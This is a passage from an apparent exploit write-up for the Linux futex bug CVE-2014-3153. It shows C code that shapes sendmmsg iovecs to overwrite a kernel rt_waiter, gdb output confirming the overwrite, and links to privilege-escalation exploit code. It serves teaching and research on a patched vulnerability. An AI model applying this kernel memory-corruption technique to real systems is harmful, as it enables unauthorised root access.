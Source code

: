 > MSG_DONTWAIT  
  Enables nonblocking operation; if the operation would block, EAGAIN or EWOULDBLOCK is returned.

Afterwards we assert that `EWOULDBLOCK` is in fact the reason the operation failed.

Next up, we're ready for actually invoking our `sendmmsg` to overwrite `rt_waiter`. Exciting!

For the sake of overwriting the waiter's list entries properly, which is what we're interested in,
we'd need to align the `iovstack` in kernelspace, which is the `iovec` in userspace accordingly.

```c
#define COUNT_OF(arr) (sizeof(arr) / sizeof(arr[0]))

struct mmsghdr msgvec;
struct iovec msg[7];

void setup_msgs()
{
    int i;

    for (i = 0; i < COUNT_OF(msg); i++)
    {
        msg[i].iov_base = 0x41414141;
        msg[i].iov_len = 0xace;
    }
    msgvec.msg_hdr.msg_iov = msg;
    msgvec.msg_hdr.msg_iovlen = COUNT_OF(msg);
}
```
In this function I setup the messages, the `iovec`, in the hope that it would overwrite the waiter's struct once I call `sendmmsg`.
Once again, I've placed two breakpoints at [`futex_wait_requeue_pi()`] and [`___sys_sendmsg()`].

```
Breakpoint 1, futex_wait_requeue_pi (uaddr=uaddr@entry=0x80ff44c, flags=flags@entry=0x1, val=val@entry=0x0,
    abs_time=abs_time@entry=0x0, uaddr2=uaddr2@entry=0x80ff450, bitset=0xffffffff) at kernel/futex.c:2285
(gdb) set $waiter = &rt_waiter
(gdb) cont
Continuing.

Breakpoint 3, ___sys_sendmsg (sock=sock@entry=0xc5dfda80, msg=msg@entry=0x80ff420, msg_sys=msg_sys@entry=0xc78cfef4,
    flags=flags@entry=0x0, used_address=used_address@entry=0xc78cff10) at net/socket.c:1979

(gdb) fin
Run till exit from #0  ___sys_sendmsg (sock=sock@entry=0xc5dfda80, msg=msg@entry=0x80ff420, msg_sys=msg_sys@entry=0xc78cfef4,
    flags=flags@entry=0x0, used_address=used_address@entry=0xc78cff10) at net/socket.c:1979
^C
Program received signal SIGINT, Interrupt.
(gdb) p *$waiter
$26 = {
  list_entry = {
    prio = 0xace,
    prio_list = {
      next = 0x41414141,
      prev = 0xace
    },
    node_list = {
      next = 0x41414141,
      prev = 0xace
    }
    ...
}
```

[challenge]: https://github.com/elongl/pwnable.kr/tree/master/syscall
[Linux Kernel Development]: https://books.google.co.il/books/about/Linux_Kernel_Development.html?id=3MWRMYRwulIC
[Linux Kernel Image]: https://i.imgur.com/vJP3B8i.png
[CVE-2014-3153]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3153
[man futex(2)]: https://man7.org/linux/man-pages/man2/futex.2.html
[man futex(7)]: https://man7.org/linux/man-pages/man7/futex.7.html
[Priority Inheritance]: https://en.wikipedia.org/wiki/Priority_inheritance 
[`plist`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/plist.h
[Priority List Image]: https://i.imgur.com/IBxItuz.png
[bug fix commit]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e9c243a5a6de0be8e584c604d353412584b592f8
[summary of them]: https://github.com/elongl/CVE-2014-3153/blob/master/notes.md#data-structures
[`rt_mutex_start_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L962
[`rt_mutex_finish_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L1033
[`task_blocks_on_rt_mutex()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L405
[`futex_requeue()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1264
[`futex_wait_requeue_pi()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L2285
[`futex_proxy_trylock_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1202
[`futex_lock_pi_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L718
[Bugged Waiter Image]: https://i.imgur.com/Dael9DR.png
[Recap Image]: https://i.imgur.com/0qp366z.png
[atomically]: https://wiki.osdev.org/Atomic_operation
[`cred`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/cred.h#L102
[capabilities]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[GCC releases]: https://gcc.gnu.org/releases.html
[Linux kernel version]: https://en.wikipedia.org/wiki/Linux_kernel_version_history
[futex wrappers]: https://github.com/elongl/CVE-2014-3153/blob/master/futex.c
[Kernel Crash Video]: https://youtu.be/DxPt1MNPDpY
[`___sys_sendmsg()`]: https://elixir.bootlin.com/linux/v3.11.4/source/net/socket.c#L1976
[`man sendmmsg(2)`]: https://man7.org/linux/man-pages/man2/sendmmsg.2.html
[Waiter Overwritten Image]: https://i.imgur.com/npV3oAT.png
[`task_struct`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/sched.h#L1027
[`thread_info`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L25
[Crafted Waiter Image]: https://i.imgur.com/5HtvkBq.png
[New Waiter Image]: https://i.imgur.com/uAJDaJF.png
[`leak_thread_info()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L138
[`current_thread_info()`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L174
[`escalate_priv()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L123
[`escalate_priv_sighandler`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L95
[`sigaction()`]: https://man7.org/linux/man-pages/man2/sigaction.2.html
[`clone()`]: https://man7.org/linux/man-pages/man2/clone.2.html
[`kmemcpy()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L40
[exploit]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c